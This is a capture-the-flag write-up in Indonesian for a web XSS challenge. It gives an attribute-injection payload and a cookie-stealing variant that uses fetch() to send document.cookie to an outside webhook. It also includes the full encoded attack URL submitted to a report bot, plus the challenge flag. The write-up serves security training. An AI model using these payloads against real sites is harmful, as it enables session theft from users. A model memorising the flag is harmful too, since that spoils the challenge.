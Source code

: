 # hyper eXkeSS eXkeSS (Hard)

## Author
abdieryy

## Deskripsi
Fortinaiti ila Babaji?

Babaji ila Ikis bokis siris ikis?

Babaji ila Balestesen fayf?

Balestesen fayf ila Lucitik?

Lucitik ila Haibar eXkeSS eXkeSS eXkeSS eXkeSS?

https://owasp.org/www-community/attacks/xss/

## Writeup
Objektif pada challenge merupakan XSS, yang dimana sebuah injeksi script javascript pada website.

Untuk memunculkan alert kita bisa menggunakan payload `a" autofocus onfocus=alert(1) x= "`

![image-1](image-1.png)

Karena flag berada pada cookie milik bot sesuai pada file `bot.js`, maka kita bisa melakukan copy url yang telah rentan oleh XSS agar bisa dikunjungi oleh bot.

![image-2](image-2.png)

Karena kerentanan XSS sudah ditemukan, maka selanjutnya kita bisa menggabungkan teknik SSRF pada webhook untuk mendapatkan cookie dari bot.

```
a" autofocus onfocus=fetch(`https://yourwebhook.site?x=`+document.cookie) x= "
```

Akses pada endpoint `/report` untuk mengirimkan link tersebut, dan ubah domain ke `http://proxy/` agar sesuai dengan domain flag yang berada di docker-compose.

Full url:
```
http://proxy/?name=a%22%20autofocus%20onfocus%3Dfetch%28%60https%3A%2F%2Fwebhook%2Esite%2F3edf0f00%2Dd6e0%2D4fec%2Daca4%2D83a2fffa3878%3Fx%3D%60%2Bdocument%2Ecookie%29%20x%3D%20%22
```

![flag](flag.png)

```
HCS{hyper_eXkeSS_should_be_on_your_home_now_anyway_GG_for_solve_this_XSS_Challenge}
```